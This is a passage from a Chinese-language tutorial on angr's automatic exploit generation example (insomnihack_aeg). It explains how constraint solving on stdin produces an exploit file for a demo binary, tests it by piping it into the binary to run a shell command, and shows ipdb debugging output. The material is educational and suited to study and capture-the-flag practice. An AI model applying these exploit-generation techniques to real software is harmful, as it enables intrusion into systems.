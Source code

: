 ### 约束求解，生成 exploit 

```python
filename = '%s-exploit' % binary_name
with open(filename, 'wb') as f:
    f.write(ep.posix.dumps(0))
print("%s exploit in %s" % (binary_name, filename))
print("run with `(cat %s; cat -) | %s`" % (filename, binary))
return 0
```

`posix.dumps(0)`  即使用对标准输入（文件描述符为 0）进行约束求解，获得满足约束的输入值。

`posix.dumps(0)` 相当于：

```python
my_stdin_file = my_state.posix.files[0]              #stdin file descriptor
all_my_bytes = my_stdin_file.all_bytes()                  #all bytes in file
myBytesString = my_path.se.eval(all_my_bytes,cast_to=str) #Solve bytes, convert to string
```

最后会获得 `demo_bin-exploit` 文件，包含可以成功利用程序的输入。

### 测试

可以调用脚本的 `test()` 函数, 测试是否成功生成利用

```python
assert subprocess.check_output('(cat ./demo_bin-exploit; echo echo BUMO) | ./demo_bin', shell=True) == b'BUMO\n'
```



### 运行

接下来，我们可以看一下脚本的运行过程

`python solve.py demo_bin` 运行脚本

或者使用 ipdb 进行调试 

```
python -m ipdb solve.py demo_bin
```

调试命令与 gdb 类似，b 设置断点，c 继续运行，n 单步运行，s 步进

```python
ipdb> c    
<SimulationManager with 1 active>
> /home/angr/angr-doc/examples/insomnihack_aeg/solve.py(70)main()
     68         print(sm)
     69         sm.step()
2--> 70         if len(sm.unconstrained) > 0:
6    71             l.info("found some unconstrained states, checking exploitability")
     72             for u in sm.unconstrained:
```
